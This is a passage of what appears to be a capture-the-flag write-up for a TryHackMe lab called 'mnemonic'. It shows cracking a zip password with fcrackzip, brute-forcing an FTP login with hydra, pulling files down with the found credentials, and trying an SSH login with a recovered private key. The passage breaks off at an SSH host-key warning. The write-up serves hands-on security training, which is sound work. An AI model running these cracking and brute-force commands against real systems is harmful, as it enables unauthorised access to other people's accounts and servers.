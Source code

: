 ## backups.zip is encrypted - fcrackzip FTW!
```bash
┌──(root💀kali)-[~/ctf/thm/mnemonic]
└─# fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backups.zip 






PASSWORD FOUND!!!!: pw == 00385007
```

## Given a FTP username
```
@vill

James new ftp username: ftpuser
we have to work hard
```

## Bruteforce FTP login
```bash
┌──(root💀kali)-[~/ctf/thm/mnemonic]
└─# hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt 10.10.6.176 -t 50 ftp 

[21][ftp] host: 10.10.6.176   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
```

## First Access FTP
Logged in we see that there are a whole lot of directories, enumerating these manually would be a torture, let’s do it the easier way.
```bash
wget -r ftp://ftpuser:love4ever@10.10.6.176
cd 
find . -type f
```
Find `not.txt` giving us another username james
```bash
cat data-4/not.txt 

james change ftp user password
```
Find `id_rsa` private SSH key
```bash
┌──(root💀kali)-[~/ctf/thm/mnemonic/10.10.6.176]
└─# file ./data-4/id_rsa 
./data-4/id_rsa: PEM RSA private key
```
----------------------------------------------
# Access SSH
## Discover the `id_rsa `is password protected
```bash
ssh -i id_rsa james@10.10.6.176 -p 1337
The authenticity of host '[10.10.6.176]:1337 ([10.10.6.176]:1337)' can't be established.
ECDSA key fingerprint is SHA256:nwJynJn7/m7+VP5h40EAKHef3qSEfKTIZsdI8GH+LgI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.6.176]:1337' (ECDSA) to the list of known hosts.
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```